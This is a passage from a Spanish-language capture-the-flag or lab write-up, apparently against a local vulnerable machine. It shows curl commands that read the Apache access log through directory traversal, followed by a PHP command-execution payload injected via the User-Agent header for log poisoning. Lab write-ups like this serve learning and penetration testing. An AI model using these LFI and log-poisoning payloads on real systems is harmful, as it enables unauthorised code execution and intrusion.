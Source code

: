 Si lanzamos una peticion y le pasamos el `User-Agent` por que lo podemos controlar

```bash
❯ curl -s -X GET "http://192.168.1.153/xd" -H "User-Agent: pwned"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 192.168.1.153 Port 80</address>
</body></html>
```

Y  creamos un `log` con nuestro `User-Agent`

```bash
❯ curl -s -X GET "http://192.168.1.153:8593/index.php?book=../../../../../../../var/log/apache2/access.log" | tail -n 10
::1 - - [03/Apr/2023:13:40:18 -0400] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.4.38 (Debian) (internal dummy connection)"
::1 - - [03/Apr/2023:13:40:19 -0400] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.4.38 (Debian) (internal dummy connection)"
::1 - - [03/Apr/2023:13:40:20 -0400] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.4.38 (Debian) (internal dummy connection)"
::1 - - [03/Apr/2023:13:40:21 -0400] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.4.38 (Debian) (internal dummy connection)"
::1 - - [03/Apr/2023:13:40:22 -0400] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.4.38 (Debian) (internal dummy connection)"
::1 - - [03/Apr/2023:13:40:23 -0400] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.4.38 (Debian) (internal dummy connection)"
::1 - - [03/Apr/2023:13:40:24 -0400] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.4.38 (Debian) (internal dummy connection)"
192.168.1.94 - - [03/Apr/2023:14:14:45 -0400] "GET /xd HTTP/1.1" 404 436 "-" "pwned"
</p>    </body>
</html>
```

Lo que tenemos que hacer es un `Log Poisoning`

Como la `web` interpreta `php` en el `User-Agent` podemos inyectar codigo `php`

```bash
❯ curl -s -X GET "http://192.168.1.153/xd" -H "User-Agent: <?php system('whoami'); ?>"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 192.168.1.153 Port 80</address>
</body></html>
```

